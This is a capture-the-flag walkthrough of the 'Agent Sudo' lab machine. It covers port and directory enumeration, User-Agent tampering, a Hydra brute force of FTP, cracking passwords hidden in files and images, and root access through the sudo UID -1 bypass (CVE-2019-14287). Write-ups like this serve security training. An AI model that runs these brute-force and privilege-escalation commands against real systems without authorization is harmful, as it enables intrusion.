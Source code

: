 # AgentSudo

IP - 10.10.149.28

## Scanning and Enumeration
nmap:
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Annoucement
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:
```
dirsearch -

[21:37:02] 403 -   276B - /.php

[21:37:33] 200 -   218B - /index.php

[21:37:33] 200 -   218B - /index.php/login/

[21:37:48] 403 -   276B - /server-status

[21:37:48] 403 -   276B - /server-status/
```

## Exploit
- To access the site I used BurpSuite to capture the request.
- Modified User-Agent by typing letters "A,B,C,D,E,F...", received "302 Found" which indicates redirection.
![image](https://github.com/user-attachments/assets/d20a6e6d-646e-4023-8f93-0c0c60b91657)
- Added the location: "agent_C_attention.php" to the GET request and got accessed to the site.
![image](https://github.com/user-attachments/assets/fff21a02-49e4-45a2-a072-1d553ca25bd4)

## Brute Force Attack
1. We know FTP server is open.
2. We know user is Chris.
3. We know Chris got a weak password.

To brute force the FTP server I used Hydra - ``` hydra -l chris -P /usr/share/wordlists/rockyou.txt -t 4 ftp://10.10.149.28 ```
![image](https://github.com/user-attachments/assets/d47f74f6-51a5-4472-92cf-ebdfce7d30f8)

Login successful using "chris" as the username and "crystal" as the password.

![image](https://github.com/user-attachments/assets/e673c106-981a-4a1e-a7b6-20958b1b66a9)

Found 'Agent J' file

![image](https://github.com/user-attachments/assets/4384db87-6b60-41dc-8798-c4457a928ea5)


Transferred the file to my machine

![image](https://github.com/user-attachments/assets/47f6dcd3-619f-4039-b531-ea1f603c800c)

![image](https://github.com/user-attachments/assets/01b9a433-bd67-4fea-9e04-6a85016fe016)

- Went back to the FTP server and moved both images to my machine.
- Found zip file inside one of the images by running - ``` binwalk -e cutie.png ```

![image](https://github.com/user-attachments/assets/73b97020-ae76-494b-88fa-66a6e3356521)

- Zip file is unreadable and needs to be exploit.
- Used zip2john to extract hashed passwords
- Used john to crack the password

![image](https://github.com/user-attachments/assets/acd5f02e-6a4a-43b6-9e20-28d241846988)

- Image cute-alien.jpg is also hiding something but it asks for a passphrase.
- To get the passphrase I used stegseek to crack it.

![image](https://github.com/user-attachments/assets/b139c113-ea9b-4568-9fd9-e52a7c460f0b)

- Found out Agent 'J' name is James. Password: hackerrules!

![image](https://github.com/user-attachments/assets/6994ad57-7c63-45b6-b294-737cd641a0f1)

## SSH Login
- Established SSH access using username: james | password: hackerrules!

![image](https://github.com/user-attachments/assets/d2ce9dbe-c4a6-4104-a397-c81d2138aa66)

- Got the user.txt flag with no issues inside "james" directory.
- In james directory there is an image. To get the name of the incident photo I transferred the image to my machine using - ``` scp james@10.10.149.28:/home/james/Alien_autospy.jpg . ```
- Went to https://tineye.com/ > Uploaded the image and in the results I found an article in foxnews.com called "Roswell alien autopsy".


## Privilege Escalation
- Info found about user james:
```
james@agent-sudo:/$ sudo -l
User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash
```
- By running - ``` sudo -u#-1 bash ``` it runs bash as the user with UID -1, which is interpreted as root (UID 0) on some systems, potentially allowing privilege escalation if sudo is misconfigured.


reference - https://www.aquasec.com/blog/cve-2019-14287-sudo-linux-vulnerability/


![image](https://github.com/user-attachments/assets/780f9ad1-e29e-4126-b601-97eadf3f01a5)








